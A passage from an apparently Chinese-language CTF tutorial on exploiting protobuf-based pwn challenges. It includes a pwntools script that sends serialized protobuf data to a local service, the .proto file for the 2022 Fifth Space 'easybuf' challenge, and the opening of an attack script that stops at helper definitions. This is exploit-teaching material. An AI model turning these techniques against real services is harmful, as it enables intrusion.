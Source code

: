 4.  在`shell`中发送数据。
    

将上面的步骤进行优化，写好`paylaod`如下，使用`exec(open("./send_message.py").read())`执行 py 文件即可快速调试。

```
# send_message.py
from pwn import *
import loginfo_pb2
io = remote("127.0.0.1",10002)
 
d = loginfo_pb2.loginfo()
# 题目需要啥发送啥
d.name = "name"
d.passwd = "passwd"
d.email = "email@114.com"
strs = d.SerializeToString()
io.send(strs)

```

4. 例题
-----

### 1.2022 第五空间决赛`easybuf`

这个题应该学习`protobuf`的最佳题目，没有任何坑，题目逻辑非常简单，没去去除符号表，逆向出来既有答案，有任意地址读写的漏洞。

![](https://bbs.kanxue.com/upload/attach/202406/894406_8DN8P8QFMQ8G5JC.webp)

`proto`文件如下。

```
syntax = "proto2";

package tutorial;

message Note {
    optional string name = 1;
    optional int64 addr = 2;
    optional int64 offset = 3;
    optional int32 choice = 4;
}

message Notebook {
    repeated Note note = 1;
}


```

攻击脚本如下

```
import test_pb2
from pwn import *
import duchao_pwn_script
from sys import argv
import argparse
 
s = lambda data: io.send(data)
sa = lambda delim, data: io.sendafter(delim, data)
sl = lambda data: io.sendline(data)
sla = lambda delim, data: io.sendlineafter(delim, data)
r = lambda num=4096: io.recv(num)
ru = lambda delims, drop=True: io.recvuntil(delims, drop)
itr = lambda: io.interactive()
uu32 = lambda data: u32(data.ljust(4, '\0'))
```